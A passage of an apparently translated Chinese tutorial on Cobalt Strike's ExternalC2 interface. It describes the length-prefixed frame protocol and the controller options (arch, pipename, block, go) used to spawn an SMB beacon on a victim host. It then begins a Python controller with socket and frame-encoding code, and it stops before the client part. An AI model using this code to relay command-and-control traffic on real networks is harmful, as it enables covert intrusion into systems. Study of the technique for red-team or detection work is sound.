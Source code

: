 这个协议其实非常简单直白，由4字节的长度字段（低字节序）以及一个数据块所组成，如下所示：

[![](https://p4.ssl.qhimg.com/t0167a253c33043b713.png)](https://p4.ssl.qhimg.com/t0167a253c33043b713.png)

开始通信时，第三方Controller与TeamServer建连，然后发送一些选项，如：

1、arch：待使用的beacon的架构（x86或x64）。

2、pipename：用来与beacon通信的管道（pipe）的名称。

3、block：TeamServer各任务之间的阻塞时间（以毫秒为单位）。

所有选项发送完毕后，Controller会发送一条 `go`指令。这条指令可以启动ExternalC2通信，生成并发送beacon。Controller随后会将这个SMB beacon载荷转发给Client，后者需要生成SMB beacon。

一旦在受害者主机上生成了SMB beacon，我们就需要建立连接来传输命令。我们可以使用命名管道完成这个任务，并且Client与SMB Beacon所使用的通信协议与Client及Controller之间的协议完全一致，也是4字节的长度字段（低字节序）再跟上一段数据。

理论方面就是这样，接下来我们可以举一个典型案例，在网络中转发通信数据。



## 三、典型案例

这个案例中，我们在服务端使用Python来实现第三方Controller功能，在客户端使用C来实现第三方Client功能。

首先，使用如下语句，让Cobalt Strike启用ExternalC2：

```
# start the External C2 server and bind to 0.0.0.0:2222
externalc2_start("0.0.0.0", 2222);
```

该语句执行完毕后，ExternalC2会在`0.0.0.0:2222`监听请求。

现在ExternalC2已经启动并处于运行状态，我们可以来构建自己的Controller。

首先，连接至TeamServer的ExternalC2接口：

```
_socketTS = socket.socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_IP)
_socketTS.connect(("127.0.0.1", 2222))
```

连接建立成功后，我们需要发送选项信息。我们可以构建一些辅助函数，计算4字节长度字段值，这样就不需要每次手动计算这个值：

```
def encodeFrame(data):
    return struct.pack("&lt;I", len(data)) + data

def sendToTS(data):
    _socketTS.sendall(encodeFrame(data))
```

接下来我们就可以使用这些辅助函数来发送选项：

```
# Send out config options
    sendToTS("arch=x86")
    sendToTS(“pipename=xpntest")
    sendToTS("block=500")
    sendToTS("go")

```
